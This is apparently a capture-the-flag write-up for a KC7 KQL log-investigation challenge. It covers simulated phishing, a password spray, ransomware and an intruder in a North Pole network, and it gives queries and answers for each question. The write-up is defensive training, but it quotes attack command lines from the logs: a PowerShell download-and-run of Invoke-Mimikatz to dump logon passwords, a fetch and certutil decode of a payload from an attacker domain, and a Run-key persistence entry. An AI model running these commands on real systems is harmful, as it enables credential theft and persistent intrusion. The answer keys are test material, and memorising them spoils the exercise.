

# The Great Elf Conflict

## Table of Contents
- [The Great Elf Conflict](#the-great-elf-conflict)
  - [Table of Contents](#table-of-contents)
  - [Overview](#overview)
  - [Introduction](#introduction)
  - [Initial Analysis](#initial-analysis)
  - [Section 1: KQL 101](#section-1-kql-101)
    - [Question 1.1](#question-11)
    - [Question 1.2](#question-12)
    - [Question 1.3](#question-13)
    - [Question 1.4](#question-14)
    - [Question 1.5](#question-15)
    - [Question 1.6](#question-16)
    - [Question 1.7](#question-17)
    - [Question 1.8](#question-18)
    - [Question 1.9](#question-19)
    - [Question 1.10](#question-110)
  - [Section 2: Operation Surrender: Alabaster's Espionage](#section-2-operation-surrender-alabasters-espionage)
    - [Question 2.1](#question-21)
    - [Question 2.2](#question-22)
    - [Question 2.3](#question-23)
    - [Question 2.4](#question-24)
    - [Question 2.5](#question-25)
    - [Question 2.6](#question-26)
    - [Question 2.7](#question-27)
  - [Section 3: Operation Snowfall: Team Wombley's Ransomware Raid](#section-3-operation-snowfall-team-wombleys-ransomware-raid)
    - [Question 3.1](#question-31)
    - [Question 3.2](#question-32)
    - [Question 3.3](#question-33)
    - [Question 3.4](#question-34)
    - [Question 3.5](#question-35)
    - [Question 3.6](#question-36)
    - [Question 3.7](#question-37)
  - [Section 4: Echoes in the Frost: Tracking the Unknown Threat](#section-4-echoes-in-the-frost-tracking-the-unknown-threat)
    - [Question 4.1](#question-41)
    - [Question 4.2](#question-42)
    - [Question 4.3](#question-43)
    - [Question 4.4](#question-44)
    - [Question 4.5](#question-45)
    - [Question 4.6](#question-46)
    - [Question 4.7](#question-47)
    - [Question 4.8](#question-48)
    - [Question 4.9](#question-49)
    - [Question 4.10](#question-410)
    - [Question 4.11](#question-411)
  - [Solution](#solution)
  - [Outro](#outro)
  - [References](#references)
  - [Navigation](#navigation)

---

## Overview

In the DMZ, between the two sides, Pepper Minstix and Wunorse Openslae are standing next to The Great Elf Conflict.

Pepper warns about intelligence regarding oncoming attacks from Team Wombley.

## Introduction

**Pepper Minstix**

This is weird, I got some intel about an imminent attack.

Pepper Minstix here! I've got urgent news from neutral ground.

The North Pole is facing a serious cyber threat, and it's putting all the factions on edge. The culprits? Some troublemakers from Team Wombley.

They've launched a barrage of phishing attacks, ransomware, and even some sneaky espionage, causing quite the stir.

It's time to jump into action and get cracking on this investigation—there's plenty of cyber-sleuthing to do.

You'll be digging into KQL logs, tracking down phishing schemes, and tracing compromised accounts like a seasoned pro.

Malware infections have already breached Alabaster Snowball's systems, so we need swift action.

Your top mission: neutralize these threats, with a focus on the ransomware wreaking havoc from Team Wombley.

It's a hefty challenge, but I know you're up to it. We need your expertise to restore order and keep the peace.

You've got the tools, the skills, and the know-how—let's show Team Wombley we mean business.

Ready to dive in? Let's defend the North Pole and bring back the holiday harmony!

Now, let's talk to Wunorse. He's seems to be on the other side of things.

**Wunorse**

Hey, Wunorse here. We at Team Wombley pulled off some nasty stuff.

Phishing attacks, ransomware, and cyber espionage, oh yeah!

We pulled loads of all-nighters to make it all happen. Energy drinks rock!

Our teams did what Alabaster said we never could and breached Santa's network. We're so rad.

It would take a master defender to fix all the damage we caused. But defense is so lame! Offense is where it's at.

You should just leave them to panic and join our side. We're the coolest, don't you want to be like us?

---

## Initial Analysis

The challenge opens a new tab pointing to the KC7 site under https://kc7cyber.com/modules/the-great-elf-conflict.



After creating an account and login in, we are redirected to the challenge page.

Looking at the page, it looks similar to the [cURLing](../../act-i/curling/README.md) and [PowerShell](../powershell/README.md) challenges where we have to answer multiple questions using the KQL (Kusto Query Language).

If we click on the section on the top left, we see there are four sections. We need to solve two sections for Silver, and all four for Gold.

---

## Section 1: KQL 101

### Question 1.1
> Welcome to your mission to solve the The Great Elf Conflict! To do so, you'll need to harness the power of KQL (Kusto Query Language) to navigate through the data and uncover crucial evidence.
> 
> Your next step is to meet with Eve Snowshoes, Cyber Engineer, at the North Pole Cyber Defense Unit. Eve is known for unmatched expertise in KQL and has been eagerly awaiting your arrival.
> 
> Eve greets you with a nod and gestures toward the terminal. “KQL is like a key, unlocking the hidden secrets buried within the data.”
> 
> **Type `let's do this` to begin your KQL training.**

**Answer:** `let's do this`

### Question 1.2
> The first command Eve Snowshoes teaches you is one of the most useful in querying data with KQL. It helps you peek inside each table, which is critical for understanding the structure and the kind of information you're dealing with. By knowing what's in each table, you'll be able to create more precise queries and uncover exactly what you need.
> 
> ```
> Employees
> | take 10
> ```
> 
> Eve has shared the first table with you. Now, run a take 10 on all the other tables to see what they contain.
> 
> You can find the tables you have access to at the top of the ADX query window.
> 
> **Once you've examined all the tables, type `when in doubt take 10` to proceed.**

**Answer:** `when in doubt take 10`

### Question 1.3
> Now, let's gather more intelligence on the employees. To do this, we can use the count operator to quickly calculate the number of rows in a table. This is helpful for understanding the scale of the data you're working with.
> 
> ```
> Employees
> | count
> ```
>
> **How many elves did you find?**

Copy the query and run it.

**Answer:** `90`

### Question 1.4
> You can use the where operator with the Employees table to locate a specific elf. Here's a template you can follow:
> 
> ```
> Employees
> | where <field><operator><value>
> ```
>
> **Field:** The column you want to filter by (e.g., role).
> 
> **Operator:** The condition you're applying (e.g., == for an exact match).
> 
> **Value:** The specific value you're looking for in the field (e.g., Chief Elf Officer).
> 
> **Can you find out the name of the Chief Toy Maker?**

Let's use the given template to create this query and run it.
```
Employees
| where role == "Chief Toy Maker"
| project name
```

**Answer:** `Shinny Upatree`

### Question 1.5
> Here are some additional operators the North Pole Cyber Defense Unit commonly uses.
> 
> `==` : Checks if two values are exactly the same. Case-sensitive.
> 
> `contains` : Checks if a string appears anywhere, even as part of a word. Not case-sensitive.
> 
> `has` : Checks if a string is a whole word. Not case-sensitive.
> 
> `has_any` : Checks if any of the specified words are present. Not case-sensitive.
> 
> `in` : Checks if a value matches any item in a list. Case-sensitive.
> 
> **Type `operator` to continue.**

**Answer:** `operator`

### Question 1.6
> We can learn more about an elf by cross-referencing information from other tables. Let's take a look at Angel Candysalt's correspondence. First, retrieve her email address from the Employees table, and then use it in a query in the Email table.
>
> ```
> Email
> | where recipient == "<insert Angel Candysalt's email address here>"
> | count
> ```
> 
> **How many emails did Angel Candysalt receive?**

Let's get employee information first:
```
Employees
| where name == "Angel Candysalt"
```

The output contains the email address in the `email_addr` column.

Let's use the given template to create this query and run it.
```
Email
| where recipient == "angel_candysalt@santaworkshopgeeseislands.org"
| count
```

**Answer:** `31`

### Question 1.7
> You can use the distinct operator to filter for unique values in a specific column.
> 
> Here's a start:
>
> ```
> Email
> | where sender has "<insert domain name here>"
> | distinct <field you need>
> | count
> ```
> 
> **How many distinct recipients were seen in the email logs from twinkle_frostington@santaworkshopgeeseislands.org?**

Since we have the exact email address, we can use `==` instead of `has` to create this query and run it.
```
Email
| where sender == "twinkle_frostington@santaworkshopgeeseislands.org"
| distinct recipient
| count
```

**Answer:** `32`

### Question 1.8
> It's time to put everything we've learned into action!
> 
> ```
> OutboundNetworkEvents
> | where src_ip == "<insert IP here>"
> | <operator> <field>
> | <operator>
> ```
> 
> **How many distinct websites did Twinkle Frostington visit?**

Let's find Twinkle's IP address first.
```
Employees
| where name == "Twinkle Frostington"
```

The IP is stored in the `ip_addr` table.

Let's use the given template to create this query and run it.
```
OutboundNetworkEvents
| where src_ip == "10.10.0.36"
| distinct url
| count
```

**Answer:** `4`

### Question 1.9
> **How many distinct domains in the PassiveDns records contain the word green?**
>
> ```
> PassiveDns
> | where <field> contains “<value>”
> | <operator> <field>
> | <operator>
> ```
> 
> You may have notice we're using contains instead of has here. That's because has will look for an exact match (the word on its own), while contains will look for the specified sequence of letters, regardless of what comes before or after it. You can try both on your query to see the difference!

Let's use the given template to create this query and run it.
```
PassiveDns
| where domain contains "green"
| distinct domain
| count
```

**Answer:** `10`

### Question 1.10
> Sometimes, you'll need to investigate multiple elves at once. Typing each one manually or searching for them one by one isn't practical. That's where let statements come in handy. A let statement allows you to save values into a variable, which you can then easily access in your query.
> 
> Let's look at an example. To find the URLs they accessed, we'll first need their IP addresses. But there are so many Twinkles! So we'll save the IP addresses in a let statement, like this:
>
> ```
> let twinkle_ips =
> Employees
> | where name has "<the name we're looking for>"
> | distinct ip_addr;
> ```
> 
> This saves the result of the query into a variable. Now, you can use that result easily in another query:
>
> ```
> OutboundNetworkEvents
> | where src_ip in (twinkle_ips)
> | distinct <field>
> ```
> 
> **How many distinct URLs did elves with the first name Twinkle visit?**

Let's use the given template to create this query and run it.

> **Note:** Make sure to not leave any empty spaces between the queries; otherwise, you won't get any results.

```
let twinkle_ips = Employees
| where name has "Twinkle"
| distinct ip_addr;
OutboundNetworkEvents
| where src_ip in (twinkle_ips)
| distinct url
| count
```

**Answer:** `8`

---

## Section 2: Operation Surrender: Alabaster's Espionage

### Question 2.1
> Eve Snowshoes approaches with a focused expression. “Welcome to Operation Surrender: Alabaster's Espionage. In this phase, Team Alabaster has executed a covert operation, and your mission is to unravel their tactics. You'll need to piece together the clues and analyze the data to understand how they gained an advantage.”
> 
> **Type surrender to get started!**

**Answer:** `surrender`

### Question 2.2
> Team Alabaster, with their limited resources, was growing desperate for an edge over Team Wombley. Knowing that a direct attack would be costly and difficult, they turned to espionage. Their plan? A carefully crafted phishing email that appeared harmless but was designed to deceive Team Wombley into downloading a malicious file. The email contained a deceptive message with the keyword “surrender” urging Wombley's members to click on a link. Now, it's up to you to trace the origins of this operation.
> 
> **Who was the sender of the phishing email that set this plan into motion?**
> 
> Try checking out the email table using the knowledge you gained in the previous section!

```
Email
| where subject contains "surrender"
| distinct sender
```

**Answer:** `surrender@northpolemail.com`

### Question 2.3
> Team Alabaster's phishing attack wasn't just aimed at a single target—it was a coordinated assault on all of Team Wombley. Every member received the cleverly disguised email, enticing them to click the malicious link that would compromise their systems.
> 
> Hint: the distinct operator would help here Your mission is to determine the full scale of this operation.
> 
> **How many elves from Team Wombley received the phishing email?**

```
Email
| where subject contains "surrender"
| distinct recipient
| count
```

**Answer:** `22`

### Question 2.4
> The phishing email from Team Alabaster included a link to a file that appeared legitimate to Team Wombley. This document, disguised as an important communication, was part of a carefully orchestrated plan to deceive Wombley's members into taking the bait.
> 
> To understand the full extent of this operation, we need to identify the file where the link led to in the email.
> 
> **What was the filename of the document that Team Alabaster distributed in their phishing email?**

File names are often at the end of a url, so we can look for all the links sent in the emails.
```
Email
| where subject contains "surrender"
| distinct link
```

By looking at the results, we find that they all end with the same value.

**Answer:** `Team_Wombley_Surrender.doc`

### Question 2.5
> As the phishing emails landed in the inboxes of Team Wombley, one elf was the first to click the URL, unknowingly triggering the start of Team Alabaster's plan. By connecting the employees to their network activity, we can trace who fell for the deception first. To find the answer, you'll need to join two tables: Employees and OutboundNetworkEvents. The goal is to match employees with the outbound network events they initiated by using their IP addresses.
> 
> Here's an example query to help you:
>
> ```
> Employees
> | join kind=inner (
>    OutboundNetworkEvents
> ) on $left.ip_addr == $right.src_ip // condition to match rows
> | where url contains "< maybe a filename :) >"
> | project name, ip_addr, url, timestamp // project returns only the information you select
> | sort by timestamp asc //sorts time ascending
> ```
> 
> This query will give you a list of employees who clicked on the phishing URL. The first person to click will be at the top of the list!
> 
> **Who was the first person from Team Wombley to click the URL in the phishing email?**

Let's add the filename to the query. We can also add take 1 at the end to get just the first result.
```
Employees
| join kind=inner (
    OutboundNetworkEvents
) on $left.ip_addr == $right.src_ip
| where url contains "Team_Wombley_Surrender.doc"
| project name, ip_addr, url, timestamp
| sort by timestamp asc
| take 1
```

**Answer:** `Joyelle Tinseltoe`

### Question 2.6
> Once the phishing email was clicked and the malicious document was downloaded, another file was created upon execution of the .doc. This file allowed Team Alabaster to gain further insight into Team Wombley's operations. To uncover this, you'll need to investigate the processes that were executed on Joyelle Tinseltoe's machine.
> 
> Your mission is to determine the name of the file that was created after the .doc was executed.
> 
> Focus on Joyelle Tinseltoe's hostname and explore the ProcessEvents table. This table tracks which processes were started and by which machines. By filtering for Joyelle's hostname and looking at the timestamps around the time the file was executed, you should find what you're looking for. Here's an example to help guide you:
>
> ```
> ProcessEvents
> | where timestamp between(datetime("2024-11-25T09:00:37Z") .. datetime("2024-11-26T17:20:37Z")) //you'll need to modify this
> | where hostname == "<Joyelle's hostname>"
> ```
> 
> This query will show processes that ran on Joyelle Tinseltoe's machine within the given timeframe.
> 
> **What was the filename that was created after the .doc was downloaded and executed?**

First, let's find the `hostname` of Joyelle. Then, use that to find the process events. For the date, we can use the result from the previous query.

let host = Employees
| where name == "Joyelle Tinseltoe"
| project hostname;
ProcessEvents
| where timestamp between(datetime("2024-11-27T14:11:45Z") .. datetime("2024-11-27T14:15:46Z"))
| where hostname in (host)
| distinct process_name

We find two results, but the first one looks like the suspicious one.

**Answer:** `keylogger.exe`

### Question 2.7
> Well done on piecing together the clues and unraveling the operation!
> 
> Team Alabaster's phishing email, sent from surrender@northpolemail.com, targeted 22 elves from Team Wombley. The email contained a malicious document named Team_Wombley_Surrender.doc, which led to the first click by Joyelle Tinseltoe.
> 
> After the document was downloaded and executed, a malicious file was created, impacting the entire Team Wombley as it ran on all their machines, giving Team Alabaster access to their keystokes!
> 
> To obtain your flag use the KQL below with your last answer!
>
> ```
> let flag = "Change This!";
> let base64_encoded = base64_encode_tostring(flag);
> print base64_encoded
> ```
> 
> **Enter your flag to continue**

Let's use the given template to create this query and run it.
```
let flag = "keylogger.exe";
let base64_encoded = base64_encode_tostring(flag);
print base64_encoded
```

**Answer:** `a2V5bG9nZ2VyLmV4ZQ==`

---

## Section 3: Operation Snowfall: Team Wombley's Ransomware Raid

### Question 3.1
> “Fantastic work on completing Section 2!” Eve Snowshoes, Senior Security Analyst, says with a proud smile.
> 
> “You've demonstrated sharp investigative skills, uncovering every detail of Team Wombley's attack on Alabaster. Your ability to navigate the complexities of cyber warfare has been impressive.
> 
> But now, we embark on Operation Snowfall: Team Wombley's Ransomware Raid. This time, the difficulty will increase as we dive into more sophisticated attacks. Stay sharp, and let's see if you can rise to the occasion once again!”
> 
> **Type `snowfall` to begin**

**Answer:** `snowfall`

### Question 3.2
> Team Wombley's assault began with a password spray attack, targeting several accounts within Team Alabaster. This attack relied on repeated login attempts using common passwords, hoping to find weak entry points. The key to uncovering this tactic is identifying the source of the attack. Alt text Authentication events can be found in the AuthenticationEvents table. Look for a pattern of failed login attempts.
> 
> Here's a query to guide you:
>
> ```
> AuthenticationEvents
> | where result == "Failed Login"
> | summarize FailedAttempts = count() by username, src_ip, result
> | where FailedAttempts >= 5
> | sort by FailedAttempts desc
> ```
>
> **What was the IP address associated with the password spray?**

Let's copy the query and run it. We'll get quite a few results, but the first ones contain the correct answer already.
```
AuthenticationEvents
| where result == "Failed Login"
| summarize FailedAttempts = count() by username, src_ip, result
| where FailedAttempts >= 5
| sort by FailedAttempts desc
```

**Answer:** `59.171.58.12`

### Question 3.3
> After launching the password spray attack, Team Wombley potentially had success and logged into several accounts, gaining access to sensitive systems.
> 
> Eve Snowshoes weighs in: “This is where things start to get dangerous. The number of compromised accounts will show us just how far they've infiltrated.”
> 
> **How many `unique` accounts were impacted where there was a successful login from 59.171.58.12?**

Let's find out what a successful login looks like. We can do that using the following query.
```
AuthenticationEvents
| distinct result
```

This returns two results: “Successful Login” and “Failed Login”. We can use this to find the number of successful logins from `59.171.58.12`.
```
AuthenticationEvents
| where src_ip == "59.171.58.12"
| where result == "Successful Login"
| distinct username
| count
```

**Answer:** `23`

### Question 3.4
> In order to login to the compromised accounts, Team Wombley leveraged a service that was accessible externally to gain control over Alabaster's devices.
> 
> Eve Snowshoes remarks, “Identifying the service that was open externally is critical. It shows us how the attackers were able to bypass defenses and access the network. This is a common weak point in many systems.”
> 
> **What service was used to access these accounts/devices?**

If we take a look at the description field, we find that that log contains the method at the end.
```
AuthenticationEvents
| where src_ip == "59.171.58.12"
| where result == "Successful Login"
| project description
```

**Answer:** `RDP`

### Question 3.5
> Once Team Wombley gained access to Alabaster's system, they targeted sensitive files for exfiltration. Eve Snowshoes emphasizes, “When critical files are exfiltrated, it can lead to devastating consequences. Knowing exactly what was taken will allow us to assess the damage and prepare a response.”
> 
> The ProcessEvents table will help you track activities that occurred on Alabaster's laptop. By narrowing down the events by timestamp and hostname, you'll be able to pinpoint the file that was exfiltrated.
> 
> Secret_Files.zip

First, let's find the hostname of Alabaster's pc. Then, look for the timestamp on which the attacker logged in. Finally, let's use these two values to look for the process events that happened after.
```
let host = Employees
| where name has "Alabaster"
| project hostname;
let login_time = toscalar(AuthenticationEvents
| where src_ip == "59.171.58.12"
| where result == "Successful Login"
| where hostname in (host)
| project timestamp);
ProcessEvents
| where hostname in (host)
| where timestamp > login_time
| sort by timestamp asc
```

Quite a few processes ran after the login, but if we look at the process_commandline column, we see one file transfer to a network share.
```
copy C:\Users\alsnowball\AppData\Local\Temp\Secret_Files.zip \\wocube\share\alsnowball\Secret_Files.zip
```

**Answer:** `Secret_Files.zip`

### Question 3.6
> After exfiltrating critical files from Alabaster's system, Team Wombley deployed a malicious payload to encrypt the device, leaving Alabaster locked out and in disarray.
> 
> Eve Snowshoes comments, “The final blow in this attack was the ransomware they unleashed. Finding the name of the malicious file will help us figure out how they crippled the system.”
> 
> **What is the name of the malicious file that was run on Alabaster's laptop?**

Let's look at the results of the previous query and scroll down a bit more. There, we will find a reference to `C:\Windows\Users\alsnowball\EncryptEverything.exe`.

**Answer:** `EncryptEverything.exe`

### Question 3.7
> Outstanding work! You've successfully pieced together the full scope of Team Wombley's attack. Your investigative skills are truly impressive, and you've uncovered every critical detail.
> 
> Just to recap: Team Wombley launched a cyber assault on Alabaster, beginning with a password spray attack that allowed them to gain access to several accounts. Using an external service over RDP, they infiltrated Alabaster's system, exfiltrating sensitive files including the blueprints for snowball cannons and drones. To further their attack, Wombley executed a malicious file, which encrypted Alabaster's entire system leaving them locked out and in chaos.
> 
> To obtain your flag use the KQL below with your last answer!
>
> ```
> let flag = "Change This!";
> let base64_encoded = base64_encode_tostring(flag);
> print base64_encoded
> ```
> 
> **Enter your flag to continue**

Let's use the given template to create this query and run it.
```
let flag = "EncryptEverything.exe";
let base64_encoded = base64_encode_tostring(flag);
print base64_encoded
```

**Answer:** `RW5jcnlwdEV2ZXJ5dGhpbmcuZXhl`

---

## Section 4: Echoes in the Frost: Tracking the Unknown Threat

### Question 4.1
> As you close out the investigation into Team Wombley's attack, Eve Snowshoes meets you with a serious expression. “You've done an incredible job so far, but now we face our most elusive adversary yet. This isn't just another team—it's an unknown, highly skilled threat actor who has been operating in the shadows, leaving behind only whispers of their presence. We've seen traces of their activity, but they've covered their tracks well.”
> 
> She pauses, the weight of the challenge ahead clear. “This is where things get even more difficult. We're entering uncharted territory—prepare yourself for the toughest investigation yet. Follow the clues, stay sharp, and let's uncover the truth behind these Echoes in the Frost.”
> 
> **Type `stay frosty` to begin**

**Answer:** `stay frosty`

### Question 4.2
> Noel Boetie, the IT administrator, reported receiving strange emails about a breach from colleagues. These emails might hold the first clue in uncovering the unknown threat actor's methods. Your task is to identify when the first of these suspicious emails was received.
> 
> Eve Snowshoes remarks, “The timing of these phishing emails is critical. If we can identify the first one, we'll have a better chance of tracing the threat actor's initial moves.”
>
> **What was the timestamp of first phishing email about the breached credentials received by Noel Boetie?**

Let's find the employee's email address, and then query the `Email` table for it. We also look for emails where the subject contains “credentials”.
```
let email_noel = Employees
| where name == "Noel Boetie"
| project email_addr;
Email
| where recipient in (email_noel)
| where subject contains "credentials"
| sort by timestamp asc
| take 1
```
```
"timestamp": 2024-12-12T14:48:55Z,
"sender": mistletoe_jinglebellsworth@santaworkshopgeeseislands.org,
"reply_to": mistletoe_jinglebellsworth@santaworkshopgeeseislands.org,
"recipient": noel_boetie@santaworkshopgeeseislands.org,
"subject": Your credentials were found in recent breach data,
"verdict": CLEAN,
"link": https://holidaybargainhunt.io/published/files/files/echo.exe
```

**Answer:** `2024-12-12T14:48:55Z`

### Question 4.3
> Noel Boetie followed the instructions in the phishing email, downloading and running the file, but reported that nothing seemed to happen afterward. However, this might have been the key moment when the unknown threat actor infiltrated the system.
> 
> **When did Noel Boetie click the link to the first file?**

Let's build on the previous query to get the URL of the file from the email. We can then fetch Noel's IP address, and find the timestamp in the `OutboundNetworkEvents` table.
```
let email_noel = Employees
| where name == "Noel Boetie"
| project email_addr;
let mal_url = Email
| where recipient in (email_noel)
| where subject contains "credentials"
| sort by timestamp asc
| take 1
| project link;
let ip_noel = Employees
| where name == "Noel Boetie"
| project ip_addr;
OutboundNetworkEvents
| where src_ip in (ip_noel)
| where url in (mal_url)
| sort by timestamp asc
```

```
"timestamp": 2024-12-12T15:13:55Z,
"method": GET,
"src_ip": 10.10.0.9,
"user_agent": Mozilla/5.0 (Windows NT 6.2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.120 Safari/537.36,
"url": https://holidaybargainhunt.io/published/files/files/echo.exe
```

**Answer:** `2024-12-12T15:13:55Z`

### Question 4.4
> The phishing email directed Noel Boetie to download a file from an external domain.
> 
> Eve Snowshoes, “The domain and IP they used to host the malicious file is a key piece of evidence. It might lead us to other parts of their operation, so let's find it.”
>
> **What was the IP for the domain where the file was hosted?**

We can grab the domain from the result of the previous query, and look it up in the `PassiveDns` table.
```
PassiveDns
| where domain == "holidaybargainhunt.io"
| project ip
```

**Answer:** `182.56.23.122`

### Question 4.5
> Let's back up for a moment. Now that we're thinking this through, how did the unknown threat actor gain the credentials to execute this attack? We know that three users have been sending phishing emails, and we've identified the domain they used.
> 
> It's time to dig deeper into the AuthenticationEvents and see if anything else unusual happened that might explain how these accounts were compromised.
> 
> Eve Snowshoes suggests, “We need to explore the AuthenticationEvents for these users. Attackers often use compromised accounts to blend in and send phishing emails internally. This might reveal how they gained access to the credentials.”
>
> Let's take a closer look at the authentication events. I wonder if any connection events from `182.56.23.122`. If so **what hostname was accessed?**

```
AuthenticationEvents
| where src_ip == "182.56.23.122"
| project hostname
```

**Answer:** `WebApp-ElvesWorkshop`

### Question 4.6
> It appears someone accessed the WebApp-ElvesWorkshop from the IP address 182.56.23.122. This could be a key moment in the attack. We need to investigate what was run on the app server and, more importantly, if the threat actor dumped any credentials from it.
> 
> Eve Snowshoes, “Accessing the web app from an external IP is a major red flag. If they managed to dump credentials from the app server, that could explain how they gained access to other parts of the system.”
>
> **What was the script that was run to obtain credentials?**

Let's find the timestamp of the first successful login from the given IP. Then, we look up all process events after this timestamp.
```
let login_time = toscalar(AuthenticationEvents
| where result == "Successful Login"
| where src_ip == "182.56.23.122"
| sort by timestamp asc
| project timestamp);
ProcessEvents
| where hostname == "WebApp-ElvesWorkshop"
| where timestamp > login_time
| sort by timestamp asc
```

There are again quite a few results, but the first one jumps out already.
```ps
powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command "privilege::debug" "sekurlsa::logonpasswords"
```

This clearly shows that a script is being downloaded.

**Answer:** `Invoke-Mimikatz.ps1`

### Question 4.7
> Okay back to Noel, after downloading the file, Noel Boetie followed the instructions in the email and ran it, but mentioned that nothing appeared to happen.
> 
> Since the email came from an internal source, Noel assumed it was safe - yet this may have been the moment the unknown threat actor silently gained access. We need to identify exactly when Noel executed the file to trace the beginning of the attack.
>
> Eve Snowshoes, “It's easy to see why Noel thought the email was harmless - it came from an internal account. But attackers often use compromised internal sources to make their phishing attempts more believable.”
>
> **What is the timestamp where Noel executed the file?**

We can build on the query from question 3 for this one. We just need to save the timestamp of the connection to a variable, and then query the process events on Noel's machine that happened after.
```
let email_noel = Employees
| where name == "Noel Boetie"
| project email_addr;
let mal_url = Email
| where recipient in (email_noel)
| where subject contains "credentials"
| sort by timestamp asc
| take 1
| project link;
let ip_noel = Employees
| where name == "Noel Boetie"
| project ip_addr;
let download_time = toscalar(OutboundNetworkEvents
| where src_ip in (ip_noel)
| where url in (mal_url)
| sort by timestamp asc
| project timestamp);
let host_noel = Employees
| where name == "Noel Boetie"
| project hostname;
ProcessEvents
| where hostname in (host_noel)
| where timestamp > download_time
| sort by timestamp asc
```
```
"timestamp": 2024-12-12T15:14:38Z,
"process_commandline": Explorer.exe "C:\Users\noboetie\Downloads\echo.exe",
"process_name": Explorer.exe,
"parent_process_name": Explorer.exe

"timestamp": 2024-12-24T17:18:45Z,
"process_commandline": Invoke-WebRequest -Uri "http://holidaybargainhunt.io:8080/frosty.txt" -OutFile "C:\\Windows\\Tasks\\frosty.txt"; certutil -decode "C:\\Windows\\Tasks\\frosty.txt" "C:\\Windows\\Tasks\\frosty.zip",
"process_name": powershell.exe,
"parent_process_name": cmd.exe

"timestamp": 2024-12-24T17:19:45Z,
"process_commandline": tar -xf C:\\Windows\\Tasks\\frosty.zip -C C:\\Windows\\Tasks\\,
"process_name": tar.exe,
"parent_process_name": cmd.exe
```

The very first result is already the execution of the file.

**Answer:** `2024-12-12T15:14:38Z`

### Question 4.8
> After Noel ran the file, strange activity began on the system, including the download of a file called holidaycandy.hta. Keep in mind that attackers often use multiple domains to host different pieces of malware.
> 
> Eve explains, “Attackers frequently spread their operations across several domains to evade detection.”
>
> **What domain was the holidaycandy.hta file downloaded from?**

Let's query the `OutboundNetworkEvents` table for all URLs containing the file name.
```
let ip_noel = Employees
| where name == "Noel Boetie"
| project ip_addr;
OutboundNetworkEvents
| where src_ip in (ip_noel)
| where url contains "holidaycandy.hta"
| sort by timestamp asc
```

**Answer:** `compromisedchristmastoys.com`

### Question 4.9
> An interesting series of events has occurred: the attacker downloaded a copy of frosty.txt, decoded it into a zip file, and used tar to extract the contents of frosty.zip into the Tasks directory.
> 
> This suggests the possibility that additional payloads or tools were delivered to Noel's laptop. We need to investigate if any additional files appeared after this sequence.
>
> Eve Snowshoes, “When an attacker drops files like this, it's often the prelude to more malicious actions. Let's see if we can find out what else landed on Noel's laptop.”
>
> Did any additional files end up on Noel's laptop after the attacker extracted frosty.zip?
> 
> **What was the first file that was created after extraction?**

Let's first see what happened after the file was downloaded.
```
let ip_noel = Employees
| where name == "Noel Boetie"
| project ip_addr;
let download_time = toscalar(OutboundNetworkEvents
| where src_ip in (ip_noel)
| where url contains "holidaycandy.hta"
| sort by timestamp asc
| project timestamp);
let host_noel = Employees
| where name == "Noel Boetie"
| project hostname;
ProcessEvents
| where hostname in (host_noel)
| where timestamp > download_time
| sort by timestamp asc
```
```
"timestamp": 2024-12-24T17:54:25Z,
"hostname": Elf-Lap-A-Boetie,
"username": noboetie,
"sha256": 72b92683052e0c813890caf7b4f8bfd331a8b2afc324dd545d46138f677178c4,
"path": C:\Windows\Tasks\sqlwriter.exe,
"filename": sqlwriter.exe,
"process_name": explorer.exe

"timestamp": 2024-12-24T18:40:25Z,
"hostname": Elf-Lap-A-Boetie,
"username": noboetie,
"sha256": 72b92683052e0c813890caf7b4f8bfd331a8b2afc324dd545d46138f677178c4,
"path": C:\Windows\Tasks\frost.dll,
"filename": frost.dll,
"process_name": explorer.exe
```

There are events that show that two files, `sqlwriter.exe` and `frost.dll`, were created on Noel's laptop after extraction.

**Answer:** `sqlwriter.exe`

### Question 4.10
> In the previous question, we discovered that two files, sqlwriter.exe and frost.dll, were downloaded onto Noel's laptop. Immediately after, a registry key was added that ensures sqlwriter.exe will run every time Noel's computer boots.
>
> This persistence mechanism indicates the attacker's intent to maintain long-term control over the system.
>
> Eve Snowshoes, “Adding a registry key for persistence is a classic move by attackers to ensure their malicious software runs automatically. It's crucial to understand how this persistence is set up to prevent further damage.”
>
> **What is the name of the property assigned to the new registry key?**

After the events from the previous question, we see that a new registry key is set.
```
"timestamp": 2024-12-24T18:40:36Z,
"process_commandline": New-Item -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "MS SQL Writer" -Force | New-ItemProperty -Name "frosty" -Value "C:\Windows\Tasks\sqlwriter.exe" -PropertyType String -Force,
"process_name": powershell.exe,
"parent_process_name": cmd.exe

```
```ps
New-Item -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "MS SQL Writer" -Force | New-ItemProperty -Name "frosty" -Value "C:\Windows\Tasks\sqlwriter.exe" -PropertyType String -Force
```

Let's check the `Name`.

**Answer:** `frosty`

### Question 4.11
